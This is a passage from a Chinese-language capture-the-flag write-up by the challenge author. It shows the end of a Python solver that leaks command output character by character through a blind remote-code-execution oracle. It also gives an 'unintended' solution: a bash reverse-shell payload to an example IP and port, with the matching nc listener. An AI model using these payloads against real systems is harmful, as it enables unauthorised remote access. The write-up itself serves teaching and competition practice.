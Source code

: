 ```py

    while True:
        l, r = 32, 127

        while l < r:
            mid = (l + r) // 2
            if execute(cmd, pos, chr(mid)):
                l = mid + 1
            else:
                r = mid

        yield chr(l)
        pos += 1


def rce(cmd):
    global r
    r = remote("localhost", 1234)
    r.recvuntil(b"$ ")
    try:
        for char in binsearch(cmd):
            print(char, end="", flush=True)
    except KeyboardInterrupt:
        pass
    except AssertionError:
        print("[!] Payload too long", end="", flush=True)


while True:
    rce(input("> ").strip())
    print()
```
::

---

### 意料之中的非预期

~~意料之中的非预期到底还算不算非预期呢~~

另一种解法是 **Reverse Shell**，要求选手拥有一个可以访问到的服务器和公网 IP。

> 命题时我曾经想过要不要禁用容器网络，但是考虑到预期解耗时很长，对于急着切题的选手来说比较不友好，而且想到这个非预期也有一定的难度，因此最终还是选择了放开。

假设 IP 地址为 `123.123.123.123`，开放端口 `9999`，构造 payload 如下：

```sh
bash -c "bash -i >& /dev/tcp/123.123.123.123/9999 0>&1"
```

然后在服务器上监听即可：

```sh
nc -lvnp 9999
```

---